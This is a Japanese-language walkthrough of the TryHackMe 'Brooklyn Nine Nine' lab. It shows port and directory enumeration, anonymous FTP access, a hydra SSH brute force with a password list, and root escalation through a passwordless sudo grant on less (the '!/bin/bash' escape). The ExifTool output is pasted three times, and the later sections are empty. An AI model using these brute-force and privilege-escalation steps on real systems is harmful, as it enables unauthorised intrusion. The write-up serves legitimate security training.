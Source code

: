 # TryHackMe - Brooklyn Nine Nine
[https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)

## Target Info
- IP: 10.10.251.27
- OS: 

## 1. Enumeration

### nmap

```
> sudo nmap -sV -O 10.10.251.27

Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

#### 80
- 画像が貼ってあるページ。画面を縮小しても最大サイズになることを確認してください的な文言
- Have you ever heard of steganography?の文言
- 画像の中にアクセス情報入ってたりするのか？
- 画像のパス発見したので中身見てみる
- 画像を調べる

```
file brooklyn99.jpg 
brooklyn99.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 533x300, components 3
```

```
ExifTool Version Number         : 13.30
File Name                       : brooklyn99.jpg
Directory                       : .
File Size                       : 70 kB
File Modification Date/Time     : 2025:06:03 23:37:41+09:00
File Access Date/Time           : 2025:06:03 23:37:46+09:00
File Inode Change Date/Time     : 2025:06:03 23:37:44+09:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 533
Image Height                    : 300
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 533x300
Megapixels                      : 0.160
ryotanoMacBook-ea:Desktop ryota$ exiftool brooklyn99.jpg
ExifTool Version Number         : 13.30
File Name                       : brooklyn99.jpg
Directory                       : .
File Size                       : 70 kB
File Modification Date/Time     : 2025:06:03 23:37:41+09:00
File Access Date/Time           : 2025:06:03 23:37:46+09:00
File Inode Change Date/Time     : 2025:06:03 23:37:44+09:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 533
Image Height                    : 300
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 533x300
Megapixels                      : 0.
ExifTool Version Number         : 13.30
File Name                       : brooklyn99.jpg
Directory                       : .
File Size                       : 70 kB
File Modification Date/Time     : 2025:06:03 23:37:41+09:00
File Access Date/Time           : 2025:06:03 23:37:46+09:00
File Inode Change Date/Time     : 2025:06:03 23:37:44+09:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 533
Image Height                    : 300
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 533x300
Megapixels                      : 0.160
```

- 特に怪しいところはなし


### gobuster

- gobuster dir -u http://10.10.251.27 -w common.txt http

```
> gobuster dir -u http://10.10.251.27 -w common.txt http

Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 718]
/server-status        (Status: 403) [Size: 277]
```

- /index.html はトップと同じ

## FTP 
- lftp -u anonymous 10.10.104.75
- パスワードなしのユーザで進入

```
lftp -u anonymous 10.10.104.75
パスワード: 
lftp anonymous@10.10.104.75:~> ls                                       
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
```

- get note_to_jake.txt で中身を確認

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

- jakeというユーザのパスワードが弱いらしい。おそらくsshの話
 
## hydra

```
hydra -l jake -P rockyou.txt -f -o found.txt ssh://10.10.104.75

[DATA] attacking ssh://10.10.104.75:22/
[22][ssh] host: 10.10.104.75   login: jake   password: 987654321
[STATUS] attack finished for 10.10.104.75 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-04 22:20:27
```

- jakeはpassword 987654321

## ssh

- ssh jake@10.10.104.75 でログイン成功
- でログイン成功

## ログイン後の話
- id
  - uid=1000(jake) gid=1000(jake) groups=1000(jake)
- pwd
  - /home/jake
- whois
  - コマンドなし
- sudo -l
  - /usr/bin/lessがパスワードなしでsudo実行できる

```
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

- find / -user root -perm -u=s -type f 2>/dev/null

## 一般ユーザフラグ
- /home/holtにuser.txt発見

## ルートユーザー
- sudo less user.txtでファイルを開き
- !/bin/bashでbashをルートユーザで起動
- /home/rootにroot.txt発見

## 2. Exploitation


## 3. Privilege Escalation

## 4. Flags
